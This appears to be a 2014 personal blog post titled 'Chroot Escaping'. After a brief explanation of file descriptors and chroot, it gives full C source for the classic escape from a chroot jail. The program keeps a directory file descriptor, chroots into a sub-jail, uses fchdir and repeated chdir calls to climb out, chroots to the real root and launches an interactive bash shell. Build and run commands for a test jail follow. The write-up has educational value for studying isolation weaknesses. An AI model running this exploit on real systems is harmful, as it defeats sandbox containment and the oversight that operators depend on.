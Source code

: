 <h1 class="header">Chroot Escaping</h1>
</br>
*09 November 2014* | [View On Github](https://github.com/sevaivanov/personal-website/blob/master/frontend/static/frontend/md/hacks/chroot.md#chroot-escaping) | [Revision History](https://github.com/sevaivanov/personal-website/commits/master/frontend/static/frontend/md/hacks/chroot.md)

FD:

A [F]ile [D]escriptor is a pointer to a file.

Each Process has a working directory.
</br></br>

Chroot():

Says to everyone:  Hey, it's the new root!

It changes **sometimes** their working directory to this new root.

Everyone (processes) is locked in this place & not aware of a higher location.


# Using C & gcc

Tested on Debian Wheezy 3.2

Jargon:

1. Real Root : System root
2. Mother Root : Where we are locked, chrooted into.
3. Sub Jail: A new jail that we create in the Mother Root.

## chroot-escape.c

    #include <sys/stat.h>
    #include <unistd.h>
    #include <fcntl.h>

    // printf()
    #include <stdio.h>
    // exit()
    #include <stdlib.h>

    int main()
    {
        int jail_fd;

        /*
            Not root? Set the effective user id to 0, root.
            Priviledged status depends only on the effective UID      
            http://unixpapa.com/incnote/setuid.html
        */
        if (getuid() != 0)
        {
            // printf("%d", geteuid());
            setuid(0);
        }

        /*
            Return a FD of current jail directory (Mother Jail).
            It's a pointer to the mother jail.
            Original chroot() call did not close his FD.
        */
        jail_fd = open(".", O_RDONLY);

        /*
            We need to go inside a Sub Jail created by us.
            You can NOT close your Mother Jail while inside.
        */
        mkdir("cell", 0755);
        chroot("cell");

        /*
            Let's go outside of our new jail to the motherjail.
            Everyone thinks our root is the [yourjail/].
            Since we're root, the system can't stop us.
            We have to refer by a FD because we don't know its path.
        */
        fchdir(jail_fd);

        /*
            Let's close the FD.
            All of the resources of this FD will be freed.
            The mother jail is shut down!
            We're outside of the Sub Jail created by us somewhere we don't know.
        */
        close(jail_fd);

        /*
            Let's go higher & higher to touch the skies!
            Going too high will be interpreted as going to root.
        */
        int i;
        for(i = 0; i < 1000; i++)
        {
            chdir("..");
        }

        // Chroot to the real root place.
        chroot(".");

        // Run an interactive shell from there.
        return execl("/bin/bash", "-i", NULL);
    }


Inspired from [filippo.io](https://filippo.io/escaping-a-chroot-jail-slash-1)

## How to test:

1. Make a jail

        apt-get install binutils debootstrap
        mkdir -p /jails/yourjail
        debootstrap --arch i386 wheezy /jails/yourjail http://http.debian.net/debian
        touch /jails/yourjail/IN_JAIL_NOW

    Inspired from [debian docs](https://wiki.debian.org/chroot).

2. Compile to executable into yourjail

        gcc -static -o jails/yourjail/escape jails/chroot-escape.c

3. Chroot into yourjail

        chroot /jails/yourjail

4. Escape

        ./escape && ls

<p class="footer"></p>